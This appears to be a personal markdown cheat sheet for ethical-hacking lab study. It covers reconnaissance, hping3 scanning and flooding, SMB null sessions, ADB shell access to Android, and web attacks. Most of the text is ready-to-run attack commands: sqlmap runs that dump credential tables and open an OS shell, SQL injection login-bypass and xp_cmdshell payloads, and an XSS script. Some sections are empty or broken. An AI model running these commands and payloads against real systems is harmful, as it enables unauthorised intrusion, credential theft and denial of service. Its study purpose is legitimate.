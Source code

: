 ## Footprinting and Reconnaissance
<details>
    <summary> Reconnasiance/Footprinting</summary>
<details>
    <summary> 1) Windows CLI tools </summary>

```bash
$ ping <ip>
 or 
$ ping www.domain.com
```
````console
$ ping <host-ip> -f -l 1300
````
```bash
$ nslookup <domain.com>
```
```bash
$ tracert <doamin>

$ traceroute <host-ip>
```
</details>


### 2)Edit,Debug and monitor
<details>
    <summary> 2)Firebug </summary>
    
- Firebug extension Integrated with Firefox
  
</details>

### 3)Mirroring website:
<details>
    <summary> Mirroring</summary>
    
- Windows: HTTrack

- Linux: wget
```bash
 $ wget <url-of-website>
``` 
#### Note:- check wget -h for options

</details>

### 4)Advance route tracing 
#### Tool: Path Analyzer Pro

<details>
    <summary> 5)Information Gathering Using Metasploit</summary>

#### Extract accurate information about a network using Metasploit Framework.

```bash
$ service postgresql start
```
```bash
In msf type 
$db_status
```
If error then exit and type below commands
- To initialize database
```
$ msfdb init
```
```
$ service postgresql start
```
relaunch metasploit Framework
```
$ msfconsole
$ db_status
$ nmap -Pn -sS -A -oX <output_file> <subnet(xx.xx.xx.x/24)>
```
you can use different options and also remove some options
```
$ hosts
```
to get host information

```
$ use auxilliary/scanner/smb/smb_version
or 
$ use /scanner/smb/smb_version
$ show options
$ set RHOSTS xx.xx.xx.8-16
$ set THREADS 1000
$ run 
```
- Now you can see the os_flavor 
- Hence Extracted information about network using metasploit
</details>
</details>

## Scanning Networks
<details>
    <summary>Scanning Networks</summary
- Port Scanning using Hping3:

```bash
hping3 --scan 1-3000 -S 10.10.10.10
```
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
```
hping3 -c 3 10.10.10.10
```
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
```
hping3 10.10.10.10 --udp --rand-source --data 500
```
- TCP SYN request
```
hping3 -S 10.10.10.10 -p 80 -c 5
```
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
```
hping3 10.10.10.10 --flood
``` 
</details>


## Enumeration
<details>
    <summary>Enumeration</summary>

 ### 1) NetBios Enumeration
#### Tool: Global Network Inventory
- Audit Scan Mode >> Select IP range >> Authentication setting >> connect as windows 12(victim) server using credentials that is currently logged on
- The Scan Summary tab displays a brief summary of machine that has been scanned. It will shows you the Machine name, MAC Address, OS installed, and etc.
- User groups,Services,Installed Softwares etc can be seen in the scan summmary.
  
### 2) Network Resources
#### Tool: Advanced IP Scanner  
- Enumerate network resources using Advanced IP Scanner.
- Perform a system ard network scan, Enumerate user accounts, Execute remotepenetration, Gather information about local network
- Input range of IP
- Now you have the IP address, Name, MAC address, and Manufacturer information of the victim machine.

### 3) Network enum using superscan
#### Tool: Superscan
- Lists of computers that belong to a domain
- Lists Of shares on the individual hosts on the network
- Policies and passwords
- Enter hostname/IP/URL >> select Enumeration type >> and see the scan result for required information.

### 4) Resurces in Local machine
#### Tool: Hyena
- Click '+' node of local workstation to expand section.
- select different nodes to view their information
- Users, Services, User Rights, Scheduled jobs

 ### 5) SMB ENumeration
#### Tools: nbstat,nmap

- In windows 12
```bash
nmap -O <win-12-ip>
```

```bash
nbstat -A xx.xx.xx.xx  //perform nbstat scan on port 139 in cmd
net use
net use \\xx.xx.xx.xx\e ""\user:""
net use \\xx.xx.xx.16\e""/user:""  //create null session 
// xx.xx.xx.16 is windows server 16
```
- disconnect drive Z
-this creates a null session 
- confirm by using
```bash
net use // session with name e would have been created
```


##### Note: Your first target is the computer with a Windows OS on which you can see ports 139 and 445 open. Remember, this usually works only against Windows but may partially succeed if other OSs have these ports open. There may be more than one system with NetBIOS open. You see that ports 135. 139.445. etc. are open and port 139 is using NetBIOS.

  ### 6) Some other tools
#### Tools:
- NetBIOS Enumerator
- SoftPerfect Network Scanner

</details>

## Vulberability Analysis
<details>
    <summary>Vulnerability Analysis</summary>

### Nessus Vulnerability Scanner
-
```bash

```
### Nikto
-
```bash
nikto -h url -Cgidirs all
```
</details>

## Android Hacking
<details>
    <summary>ADB</summary>
    
```bash
netdiscover -r xx.xx.xx.xx/24
nmap -O xx.xx.xx.4
apt-get update
apt-get install adb -y
```

- Use
```bash
adb devices -l
adb connect xx.xx.xx.4:5555 //5555 is port of android discovered in 'nmap -O' scan
adb shell // 'To get shell access'
```
- You can run commands like

```bash
pwd
cd
ls
echo
```
#### Download a File from Android using ADB tool
```bash
adb pull /sdcard/log.txt C:
adb pull sdcard/log. txt /home/murphy/Desktop
```
</details>

## SQL Injection

<details>
    <summary>SQL Injection</summary>
    
- ### SQLMAP Extract DBS
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
```
- ### Extract Tables
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
```
- ### Extract Columns
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
```
- ### Dump Data
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
```
- ### OS Shell to execute commands
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
```
- ### Login bypass
```bash
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```
</details>

## Web Application Hacking
<details>
    <summary> Web Hacking</summary>
    
- ### 1) Parameter Tampering
    - Changing ?id=1 or 2 or 3 to switch user.

- ### 2) XSS
      - In cotactact us page i the commrent section post the following script `<script>alert("You are Hacked")</script>`

- ### 3) WPScan
    - 
</details>
